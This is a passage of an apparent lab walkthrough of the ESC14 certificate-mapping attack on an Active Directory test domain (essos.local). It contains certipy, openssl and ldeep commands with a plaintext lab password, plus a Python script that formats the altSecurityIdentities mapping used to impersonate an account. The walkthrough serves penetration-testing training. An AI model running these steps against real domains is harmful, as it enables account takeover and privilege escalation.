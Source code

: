 ```bash

# Extract certificate details for mapping
certipy cert -pfx esc14computer.pfx -nokey -out "esc14computer.crt"
openssl x509 -in esc14computer.crt -noout -text

Certificate:
    Data:
        Serial Number: 43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11
        Issuer: CN=ESSOS-CA, DC=essos, DC=local
        Subject: CN=esc14computer, CN=Computers, DC=essos, DC=local

# Check current altSecurityIdentities
ldeep ldap -u missandei -d essos.local -p fr3edom -s ldap://192.168.56.12 search '(samaccountname=khal.drogo)' altSecurityIdentities

[{
  "altSecurityIdentities": [],
  "dn": "CN=khal.drogo,CN=Users,DC=essos,DC=local"
}]
```

### X509 Certificate Mapping Format

The reference article provides a Python script to format the X509 mapping correctly:

```python
import argparse

def get_x509_issuer_serial_number_format(serial_number: str, issuer_distinguished_name: str) -> str:
    """
    Formats the X509IssuerSerialNumber for the altSecurityIdentities attribute.
    :param serial_number: Serial number in the format "43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11"
    :param issuer_distinguished_name: Issuer distinguished name, e.g., "CN=ESSOS-CA,DC=essos,DC=local"
    :return: Formatted X509IssuerSerialNumber
    """
    serial_bytes = serial_number.split(":")
    reversed_serial_number = "".join(reversed(serial_bytes))
    issuer_components = issuer_distinguished_name.split(",")
    reversed_issuer_components = ",".join(reversed(issuer_components))
    return f"X509:<I>{reversed_issuer_components}<SR>{reversed_serial_number}"

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Format X509 Issuer Serial Number")
    parser.add_argument("-serial", required=True, help="Serial number in format 43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11")
    parser.add_argument("-issuer", required=True, help="Issuer Distinguished Name e.g., CN=ESSOS-CA,DC=essos,DC=local")

    args = parser.parse_args()
    formatted_value = get_x509_issuer_serial_number_format(args.serial, args.issuer)
    print(formatted_value)

# Usage:
python3 x509_issuer_serial_number_format.py -serial "43:00:00:00:11:92:78:b0:92:e5:16:88:a6:00:00:00:00:00:11" -issuer "CN=ESSOS-CA,DC=essos,DC=local"

X509:<I>DC=local,DC=essos,CN=ESSOS-CA<SR>110000000000a68816e592b078921100000043
```
